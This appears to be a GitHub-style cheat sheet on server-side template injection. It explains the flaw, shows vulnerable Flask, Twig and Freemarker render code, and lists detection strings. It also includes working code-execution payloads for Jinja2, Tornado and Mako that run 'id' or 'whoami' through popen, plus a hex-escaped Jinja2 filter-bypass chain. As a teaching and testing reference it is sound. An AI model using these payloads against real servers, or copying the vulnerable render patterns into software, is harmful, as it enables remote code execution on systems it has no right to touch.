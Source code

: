 # Server-Side Template Injection (SSTI)

## Table of Contents
1. [Introduction](#introduction)
2. [How Does SSTI Vulnerability Occur?](#how-does-ssti-vulnerability-occur)
3. [Where to Put an SSTI Payload?](#where-to-put-an-ssti-payload)
4. [Examples of HTTP Requests with SSTI Payloads](#examples-of-http-requests-with-ssti-payloads)
   - [Basic SSTI in a Python Flask/Jinja2 Application](#basic-ssti-in-a-python-flaskjinja2-application)
   - [Exploiting SSTI to Execute Arbitrary Code](#exploiting-ssti-to-execute-arbitrary-code)
   - [SSTI in a PHP Application Using Twig](#ssti-in-a-php-application-using-twig)
   - [Java Application Using Freemarker](#java-application-using-freemarker)
5. [Breaking Out of Expressions](#breaking-out-of-expressions)
6. [SSTI Payloads for Detection](#ssti-payloads-for-detection)
7. [SSTI Payloads for Specific Template Engines](#ssti-payloads-for-specific-template-engines)
   - [Tornado (Python)](#tornado-python)
   - [Mako (Python)](#mako-python)

---

## Introduction
**Server-Side Template Injection (SSTI)** is a web application vulnerability that occurs when user input is embedded directly into a server-side template, allowing an attacker to execute arbitrary code on the server. This vulnerability arises when the application fails to properly sanitize user input before using it in a template rendering engine.

## How Does SSTI Vulnerability Occur?
SSTI occurs due to insecure handling of template rendering in web applications. It happens when:
1. **User Input is Used in Templates**: The application allows user input to be directly embedded in server-side templates for rendering.
2. **Lack of Input Sanitization**: The user-provided data is not validated, sanitized, or properly escaped, making it possible for malicious input to be interpreted as template code.
3. **Insecure Template Engines**: Some template engines allow code execution or direct access to server resources if provided with crafted input.

Popular template engines vulnerable to SSTI include Jinja2 (Python), Twig (PHP), Freemarker (Java), and others.

## Where to Put an SSTI Payload?
An SSTI payload is placed in any input field, URL parameter, or HTTP header where the data is used in server-side templates. Common areas include:
- **Form fields that are used in rendering responses** (e.g., feedback forms, profile descriptions).
- **URL parameters that affect template rendering**.
- **HTTP request headers, if used in templates**.

## Examples of HTTP Requests with SSTI Payloads
### Basic SSTI in a Python Flask/Jinja2 Application
**Malicious Payload (`{{7*7}}`)**:
- When rendered in Jinja2, this payload evaluates `7*7` and returns `49`.

**Example HTTP Request**:
```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

**Vulnerable Code Example**:
```python
return render_template('greeting.html', name=request.args.get('name'))
```
**In code context**:

![Screenshot From 2025-03-21 10-20-10](https://github.com/user-attachments/assets/8f83b265-7297-4f52-aa10-3ec37bafcd78)

### Exploiting SSTI to Execute Arbitrary Code
**Malicious Payload for Jinja2 (`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`)**:

**Example HTTP Request**:
```http
POST /feedback HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

message={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

### SSTI in a PHP Application Using Twig
**Malicious Payload (`{{7*7}}`)**:
- In Twig, this would be evaluated and produce `49`.

**Example HTTP Request**:
```http
GET /profile?bio={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

**Vulnerable Code Example**:
```php
echo $twig->render('profile.html', ['bio' => $_GET['bio']]);
```

### Java Application Using Freemarker
**Malicious Payload (`${7*7}`)**:
- In Freemarker, `${7*7}` would evaluate to `49`.

**Example HTTP Request**:
```http
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

comment=${7*7}
```

**Vulnerable Code Example**:
```java
template.process(dataModel, out);
```

## Breaking Out of Expressions
In more complex cases, the vulnerability might not be evident from a simple mathematical operation. For example, if user input is placed within a template expression, like so:
```python
greeting = getQueryParameter('greeting')
engine.render("Hello {{" + greeting + "}}", data)
```
- **Injection Example:**
   ```
   http://vulnerable-website.com/?greeting=data.username}}
   ```

## SSTI Payloads for Detection
```html
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

## SSTI Payloads for Specific Template Engines
### Tornado (Python)
**Detection Payload**:
```python
{{7*7}}
```

**Execution Payload**:
```python
{{__import__('os').popen('whoami').read()}}
```

### Mako (Python)
**Detection Payload**:
```python
${7*7}
```

### jinja2 filter bypass
```
{{ ()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')() }}
```

**Execution Payload**:
```python
${self.module.cache.util.os.popen("whoami").read()}
```

---
